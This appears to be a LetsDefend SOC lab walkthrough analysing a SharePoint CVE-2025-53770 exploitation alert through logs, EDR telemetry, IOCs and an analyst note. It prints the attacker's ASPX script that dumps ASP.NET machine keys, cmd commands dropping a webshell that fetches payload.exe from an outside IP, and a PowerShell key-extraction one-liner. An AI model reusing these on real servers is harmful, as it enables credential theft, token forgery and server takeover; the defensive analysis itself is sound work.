







# LetsDefend SOC Walkthrough
# LetsDefend SOC342 — CVE‑2025‑53770 SharePoint ToolShell Auth Bypass and RCE

---

## Table of Contents

1. [Overview of CVE-2025–53770](#overview-of-cve-202553770)
2. [The Alert](#the-alert)
3. [Log Analysis](#log-analysis)
4. [EDR Analysis](#edr-analysis)
5. [CMD Execution and Dropped Files](#cmd-execution-and-dropped-files)
6. [Final Stage](#final-stage)
7. [IOCs](#iocs)
8. [Analyst Note](#analyst-note)
9. [Conclusion](#conclusion)
10. [References](#references)

---

## Overview of CVE-2025-53770

**CVE-2025-53770** is a **high-severity** vulnerability affecting Microsoft SharePoint servers. It allows an attacker to **bypass authentication** and **execute arbitrary code remotely** by exploiting a flaw in how SharePoint handles requests to the `ToolPane.aspx` page. Specifically, this vulnerability can be triggered via crafted **unauthenticated HTTP POST requests** that manipulate internal SharePoint components, such as the ToolPane interface, and ultimately allow the execution of embedded scripts or dropped files.

With a **CVSS score of 9.8**, this flaw represents a **critical risk**, particularly in internet-exposed environments where attackers can exploit it without credentials.

> **Related CVEs:**
> - **CVE-2025–49706:** Authentication bypass via crafted Referer headers.
> - **CVE-2025–49704:** Insecure deserialization leading to remote PowerShell code execution.

---

## The Alert



This alert flags suspicious activity targeting Microsoft SharePoint's `ToolPane.aspx` endpoint, linked to **CVE-2025-53770** — a critical vulnerability allowing unauthenticated attackers to exploit SharePoint via a specially crafted POST request. Successful exploitation leads to **remote code execution** on the server without needing credentials.

---

## Log Analysis



The web traffic log revealed an **unauthenticated POST request** to SharePoint's ToolPane, a page not typically intended for direct access. The following anomalies were observed:

| Anomaly | Description |
|---------|-------------|
| **Spoofed Referer** | Set to `/layouts/SignOut.aspx` to appear legitimate |
| **Large Payload** | **7,699 bytes** of encoded data (highly unusual) |
| **No Authentication Headers** | Exploiting a known bypass flaw |

This directly aligns with **CVE-2025–53770's** exploitation pattern, where attackers bypass authentication and inject code through the ToolPane interface. The delivery mechanism, headers, and payload structure were clearly crafted to avoid detection and execute commands stealthily.

---

## EDR Analysis



EDR telemetry captured the post-exploitation activity in detail. A **PowerShell command** was executed that decoded into the following **ASPX script**:

```csharp
<script runat="server" language="c#">
public void Page_load()
{
    var sy = System.Reflection.Assembly.Load("System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a");
    var mkt = sy.GetType("System.Web.Configuration.MachineKeySection");
    var gac = mkt.GetMethod("GetApplicationConfig", System.Reflection.BindingFlags.Static | System.Reflection.BindingFlags.NonPublic);
    var cg = (System.Web.Configuration.MachineKeySection)gac.Invoke(null, new object[0]);
    Response.Write(cg.ValidationKey + "|" + cg.Validation + "|" + cg.DecryptionKey + "|" + cg.Decryption + "|" + cg.CompatibilityMode);
}
</script>
```

### What This Script Does

This script abuses **.NET reflection** to access private configuration and extract:

- **ValidationKey**
- **DecryptionKey**
- **Encryption mode** + **compatibility settings**

> **Impact:** These keys can allow attackers to **forge authentication cookies** or **decrypt protected data** — a major step toward **persistence** and **lateral movement**.

---

## CMD Execution and Dropped Files



Shortly after, `cmd.exe` was executed with the following commands:

```batch
csc.exe /out:C:\Windows\Temp\payload.exe C:\Windows\Temp\payload.cs

cmd.exe /c echo <WebShell> > C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\spinstall0.aspx
```

### Malicious ASPX Webshell (`spinstall0.aspx`)

- Creates a malicious ASPX file (`spinstall0.aspx`) directly in the **SharePoint layouts directory**
- Embeds an `<object>` ActiveX tag that points to: `http://107.191.58.76/payload.exe`
- Acts as a **remote downloader** when the page is visited by a browser or triggered internally



### VirusTotal Verification

To confirm the malicious nature of the dropped ASPX file, the hash was uploaded to **VirusTotal**:

| Attribute | Value |
|-----------|-------|
| **SHA256** | `92bb4ddb98eeaf11fc15bb32e71d0a63256a0ed826a03ba293ce3a8bf057a514` |
| **Detection Rate** | **34/64** security vendors flagged it as malicious |



> **Result:** Confirmed malicious — a webshell capable of downloading remote payloads and executing arbitrary commands on the server.


---

## Final Stage

```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -Command "[System.Web.Configuration.MachineKeySection]::GetApplicationConfig()"
```

In the final observed stage, the attacker manually invoked the method via **PowerShell**. This command accessed the server's **cryptographic machine key configuration**, extracting values such as:

- **ValidationKey**
- **DecryptionKey**
- **Encryption modes**

These keys are critical components used in securing **authentication tokens** and **view state data** in ASP.NET applications. By obtaining them, the attacker could potentially:

- **Forge authentication cookies**
- **Decrypt sensitive data**
- Gain **unauthorized access** to SharePoint or other web applications relying on the same cryptographic configuration

This confirms the initial webshell's intent — to extract **machine-level secrets** for later exploitation or privilege escalation.

---

## IOCs



| Value                                                              | Comment                     | Type        |
| ------------------------------------------------------------------ | --------------------------- | ----------- |
| `172.16.20.17`                                                     | SharePoint server IP        | IP Address  |
| `107.191.58.76`                                                    | Malicious IP (C2)           | IP Address  |
| `107.191.58.76/payload.exe`                                        | Malicious download payload  | URL Address |
| `/_layouts/15/ToolPane.aspx`                                       | Initial attack vector       | URL Address |
| `92bb4ddb98eeaf11fc15bb32e71d0a63256a0ed826a03ba293ce3a8bf057a514` | spinstall0.aspx (malicious) | SHA256 Hash |


---

## Analyst Note

> The alert was triggered by suspicious PowerShell activity on a SharePoint server, which was later identified as an exploitation attempt of **CVE-2025–53770**. The attacker first dropped and compiled a custom C# executable (`payload.exe`) using `csc.exe`, followed by writing a malicious ASPX webshell (`spinstall0.aspx`) to a web-accessible SharePoint directory. Finally, a PowerShell command was executed to extract sensitive cryptographic machine keys from the server's configuration using .NET reflection. This behavior indicates a **multi-stage attack** aiming to establish **persistent access** and potentially **forge authentication tokens**. The webshell was confirmed malicious via VirusTotal (**34/64 detections**). The incident has been classified as a **true positive** and further **containment and remediation actions** are recommended.

---

## Conclusion

This was a super interesting alert to dig into - from **weaponized PowerShell** to **on-the-fly compilation** and a **sneaky webshell**, it had all the ingredients of a classic exploitation chain. **CVE-2025-53770** is no joke; extracting machine keys can lead to **token forgery** and **full compromise** of SharePoint environments. While it was a fun analysis, it's a **serious vulnerability** that should be **patched immediately** in any exposed system.

---

## References

1. [Rapid7 - Zero-Day Exploitation of Microsoft SharePoint Servers (CVE-2025-53770)](https://www.rapid7.com/blog/post/etr-zero-day-exploitation-of-microsoft-sharepoint-servers-cve-2025-53770/)
2. [Akamai - SharePoint Vulnerability RCE: Active Exploitation, Detections & Mitigations](https://www.akamai.com/blog/security-research/sharepoint-vulnerability-rce-active-exploitation-detections-mitigations)
3. [CISA - Update: Microsoft Releases Guidance on Exploitation of SharePoint Vulnerabilities](https://www.cisa.gov/news-events/alerts/2025/07/20/update-microsoft-releases-guidance-exploitation-sharepoint-vulnerabilities)

---

> **Tags:** `LetsDefend` `SOC` `CVE-2025-53770` `SharePoint` `RCE` `Auth Bypass` `WebShell` `PowerShell` `.NET Reflection` `MachineKey` `Cybersecurity` `Incident Response`

> **Platform:** LetsDefend — SOC342  
> **Event ID:** SOC342  
> **CVE:** CVE-2025-53770

---

# END